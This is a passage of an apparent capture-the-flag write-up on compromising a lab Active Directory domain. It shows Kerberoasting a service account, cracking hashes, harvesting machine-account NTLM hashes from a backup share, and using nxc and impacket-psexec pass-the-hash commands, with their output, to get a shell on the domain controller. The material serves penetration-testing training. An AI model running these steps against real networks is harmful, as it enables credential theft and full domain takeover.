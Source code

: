 <img width="941" height="166" alt="image" src="https://github.com/user-attachments/assets/fac6139d-265f-4e03-b18c-8c7b82a8bf34" />

It gave me a valid TGS for a file SVC service account. So i can now copy the hash of the account and crack it using JTR.

Cracked the hash.


Now i can check what fileshares that file_svc have rights to. 

<img width="941" height="177" alt="image" src="https://github.com/user-attachments/assets/5caf7d9a-00c4-47f7-82fa-a4c9afc907ca" />


Read access to 'backup' 


Now i will authenticate smb as file_svc using the crack password and read the backup share.

<img width="940" height="266" alt="image" src="https://github.com/user-attachments/assets/9a053bbc-e773-4a8e-bdf0-54302dcc25f0" />

Content.

<img width="940" height="266" alt="image" src="https://github.com/user-attachments/assets/53966aa0-1158-4d70-9592-613b016ba0ac" />

Looks like i have the NTLM hashes for different machine accounts.

Im going to create 2 txt files seperating the usernames and the password hashes. 

<img width="941" height="829" alt="image" src="https://github.com/user-attachments/assets/2b9ca9c7-0ac8-46e6-bc14-87a842d407a3" />


I am going to validate these machine credentials using nxc to find out which credentials are valid.

```
┌──(kali㉿kali)-[~]
└─$ nxc smb soupedecode.local -u device.txt -H hashes.txt --no-bruteforce
SMB         10.10.67.6      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.6      445    DC01             [-] SOUPEDECODE.LOCAL\WebServer$:c47b45f5d4df5a494bd19f13e14f7902 STATUS_LOGON_FAILURE 
SMB         10.10.67.6      445    DC01             [-] SOUPEDECODE.LOCAL\DatabaseServer$:406b424c7b483a42458bf6f545c936f7 STATUS_LOGON_FAILURE 
SMB         10.10.67.6      445    DC01             [-] SOUPEDECODE.LOCAL\CitrixServer$:48fc7eca9af236d7849273990f6c5117 STATUS_LOGON_FAILURE 
SMB         10.10.67.6      445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```

OK filserver has a valid credentials, again i can check and see what rights this account has in the smb shares.

<img width="940" height="207" alt="image" src="https://github.com/user-attachments/assets/0a5955ba-07f8-45c1-9d35-04cb59e3a997" />

OK, Read,Write access to admin. 

Time to get a shell to the DC. 

```
──(kali㉿kali)-[~]
└─$ impacket-psexec 'soupedecode.local/FileServer$'@soupedecode.local -hashes :e41da7e79a4c76dbd9cf79d1cb325559
Impacket v0.13.0.dev0+20250808.233909.f14ab2f - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on soupedecode.local.....
[*] Found writable share ADMIN$
[*] Uploading file bwVMVfhZ.exe
[*] Opening SVCManager on soupedecode.local.....
[*] Creating service KWCU on soupedecode.local.....
[*] Starting service KWCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
```